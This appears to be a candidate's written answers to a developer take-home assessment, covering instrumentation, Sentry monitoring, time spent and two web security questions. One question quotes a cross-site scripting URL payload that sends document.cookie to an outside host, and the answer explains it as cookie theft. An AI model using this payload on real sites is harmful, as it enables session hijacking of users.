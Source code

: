 - Fetching data from a DB
- Accessing files in disk
- Processing large batches of data
- External dependencies such as API's
- Memory usage (to detect memory leaks)

#### Describe how the instrumentation you added could be used by QA

There are tools, such as [Sentry](https://sentry.io/), that allows you to gather this information and define
thresholds of acceptable performance, logs and environment information, that could be used by QA and the
development teams to identify where the problems are happening.

### How much time did you spend on the main task?

All included, that is, coding, testing and documenting, I probably spent 4 full 8-hours days.

## Question 1: What harm could result from the following?

```
http://www.example.com/search?q=\<script\>object.src="http://otherexample.com/code?data="+document.cookie\</script>
```

Your answer:

It could inject a script in the page that seems to send all your cookies to another (malicious) site. They
could store such cookies and use them to authenticate in the origin website as the user.

## Question 2: Explain what security measures need to be taken into consideration for web applications

Your answer:

Security measures are continuously evolving, and research with the latest security techniques is encourage
when tackling down security.

There are hundreds of considerations that could be made, in all the layers of an application.

Just to name a few:

- User input validation and sanitization
- Password salting and hashing in the DB
    - Encrypting critical information
- Limit requests per IP
- Correctly setup web server, included users and groups
- SSL Certificates
- Correct http headers
- Traceability in code pipelines and deployments
- Penetration tests by third parties
- Peer-review design of critical system components
- External periodic backups for recovery


